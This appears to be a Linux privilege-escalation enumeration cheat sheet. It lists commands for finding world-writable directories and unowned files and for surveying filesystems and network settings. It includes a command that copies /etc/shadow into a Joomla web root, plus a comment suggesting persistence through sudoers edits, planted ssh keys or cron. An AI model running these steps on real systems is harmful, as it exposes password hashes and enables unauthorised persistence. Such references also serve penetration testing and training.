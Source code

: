 ## Where can be written to and executed from? A few 'common' places: /tmp, /var/tmp, /dev/shm
find / -writable -type d 2>/dev/null        # world-writeable folders
find / -perm -222 -type d 2>/dev/null      # world-writeable folders
find / -perm -o+w -type d 2>/dev/null    # world-writeable folders
find / -perm -o+x -type d 2>/dev/null    # world-executable folders
find / \( -perm -o+w -perm -o+x \) -type d 2>/dev/null   # world-writeable & executable folders

Any "problem" files? Word-writeable, "nobody" files
find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files
find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files

Example:
## We found cp (copy) in the above list and now we are abusing it:
cp -f --no-preserve=all /etc/shadow /var/www/html/joomla/shadow.txt


Few things to keep in mind:
## (1) at the destination, the file owner will be root but the group will be that of the current user and 
## (2) notice the use of "--no-preserve" this is needed to read out protected files.
## A lot of ways we can abuse this, update the shadow file with a new account, modify sudoers, plant ssh key + modify sshd_config ## + reboot,or cron.hourly.

    == File system ==
df -ah   // all FS info, including pseudo, duplicate, INACCESSIBLE file systems

## Are there any unmounted file-systems?
cat /etc/fstab


    == Networking, Routing & Communications: ==

/sbin/ifconfig -a // List all network interfaces
cat /etc/network/interfaces // As above
cat /etc/sysconfig/network 
arp -a Display ARP communications
route Display route information
cat /etc/resolv.conf Show configured DNS sever addresses
netstat -antp List all TCP sockets and related PIDs (-p Privileged command)
netstat -anup List all UDP sockets and related PIDs (-p Privileged command)
iptables -L List rules – Privileged command
cat /etc/services View port numbers/services mappings


    == What are the network configuration settings? What can you find out about this network? DHCP server? DNS server? Gateway? ==
cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname
